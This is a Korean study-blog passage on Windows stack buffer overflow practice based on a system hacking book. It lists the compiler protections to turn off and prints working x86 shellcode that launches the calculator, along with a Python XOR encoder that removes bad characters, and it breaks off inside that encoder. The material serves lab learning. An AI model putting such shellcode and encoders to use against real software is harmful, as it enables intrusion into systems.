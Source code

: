 ```yaml
---
title: 윈도우 시스템 해킹 - 스택 버퍼 오버플로우
category:
    - System Hacking
tags:
    - Windows
    - System
    - Hacking
---
```


[윈도우 시스템 해킹 가이드 / 김현민 저] <br/>
위의 책을 보면서 실습한 코드를 정리함.

Visual Studio로 보안 옵션을 해제한 후 컴파일하여 취약 프로그램을 만들고 Exploit 하였다. 보안 옵션은 다음과 같다. 설명은 링크 참조.

- 프로젝트 속성 > C/C++ > 코드 생성 > 보안 검사
- 프로젝트 속성 > 링커 > 고급 > DEP(데이터 실행 방지)
- 프로젝트 속성 > 링커 > 고급 > 임의 기준 주소
- 프로젝트 속성 > 링커 > 고급 > 이미지에 안전한 예외 처리기 포함

[참조링크](https://5kyc1ad.tistory.com/314)

---

### # ShellCode
이전 실습때 cmd를 띄우는 쉘코드를 약간 수정하여 계산기를 띄우도록 하는 쉘코드를 작성하였다. 이번 실습땐 `strcpy`와 `fgets`를 사용하기 때문에 특정 제어문자들을 제외할 필요가 있어서 Encoder를 통해 그러한 제어문자들을 제거시켜 주었다.
```python
import os, sys, random

def xor(data, key):
	leng = len(key)
	reverse = b""
	for i in range(0, len(data)):
		reverse += bytes([(data[i] ^ (key[i % leng]))])	# XOR
	return reverse

def conv_hex(data):
	hex_str = ""
	for i in range(0, len(data)):
		tmp = hex(data[i])[2:]
		if len(tmp) == 1:
			tmp = "0" + tmp
		hex_str += ("0x%s" % tmp).replace('0x', '\\x')
	return hex_str

org_shellcode = (
	b"\x8B\xEC\xEB\x30\x42\xAD\x60\x03\xD8\x8B\xF3\x33\xC0\x33\xFF\xAC"
	b"\x03\xF8\x84\xC0\x75\xF9\x89\x7D\x10\x61\x39\x7D\x10\x75\xE5\x0F"
	b"\xB7\x54\x51\xFE\x8B\x7D\x18\x8B\x77\x1C\x03\xF3\x8B\x3C\x96\x03"
	b"\xFB\x8B\xC7\xC3\x64\xA1\x30\x00\x00\x00\x8B\x40\x0C\x8B\x40\x14"
	b"\x8B\x18\x8B\x1B\x8B\x5B\x10\x8B\x7B\x3C\x03\xFB\x8B\x7F\x78\x03"
	b"\xFB\x89\x7D\x18\x8B\x77\x20\x03\xF3\x8B\x4F\x24\x03\xCB\x33\xD2"
	b"\x60\x33\xFF\x66\xBF\xB3\x02\xE8\x98\xFF\xFF\xFF\x89\x45\x20\x61"
	b"\x33\xFF\x66\xBF\x79\x04\xE8\x89\xFF\xFF\xFF\x89\x45\x24\x33\xC0"
	b"\xC6\x45\x0C\x63\xC6\x45\x0D\x61\xC6\x45\x0E\x6C\xC6\x45\x0F\x63"
	b"\x89\x45\x10\x33\xC0\x40\x50\x8D\x45\x0C\x50\xFF\x55\x20\x33\xC0"
	b"\x50\xFF\x55\x24"
)

noText = [ 0x0, 0x0a, 0xd ]
while True:
	xor_key = os.urandom(4)
```